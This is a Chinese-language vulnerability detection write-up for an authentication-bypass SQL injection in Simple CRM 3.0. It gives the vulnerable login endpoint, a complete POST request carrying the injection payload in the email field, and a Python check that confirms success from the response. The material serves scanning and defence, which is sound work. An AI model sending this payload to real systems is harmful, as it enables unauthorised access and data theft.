

# Simple CRM 3.0 SQL注入与认证绕过漏洞（simple-crm-sql-injection）检测说明

## 漏洞简介

Simple CRM 3.0 存在SQL注入与认证绕过漏洞，攻击者可通过构造恶意请求绕过登录认证并注入SQL语句，获取敏感信息或控制后台。

## 影响范围

- 产品：Simple CRM
- 影响版本：3.0
- CVE编号：无（社区编号 simple-crm-sql-injection）
- 危害等级：Critical

## 漏洞原理

登录接口未对email参数进行有效过滤，攻击者可通过POST请求注入SQL语句，绕过认证并进入后台。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的POST请求，email参数注入`'+or+2>1+--+`。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，认证逻辑被绕过。
4. 响应中出现跳转到home.php的脚本，攻击者确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
POST /scrm/crm/admin HTTP/1.1
Host: target.com
Content-Type: application/x-www-form-urlencoded

email='+or+2>1+--+&password=&login=
```

- email参数注入了`'+or+2>1+--+`，用于绕过认证。

### 预期响应与交互

- 响应体需包含`<script>window.location.href='home.php'</script>`。
- 响应头包含`text/html`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and "<script>window.location.href='home.php'</script>" in response.text and 'text/html' in response.headers.get('content-type', ''):
        return True
    return False
```

### 检测流程Mermaid图



## 参考链接

- [Packet Storm - Simple CRM 3.0 SQL Injection](https://packetstormsecurity.com/files/163254/simplecrm30-sql.txt) 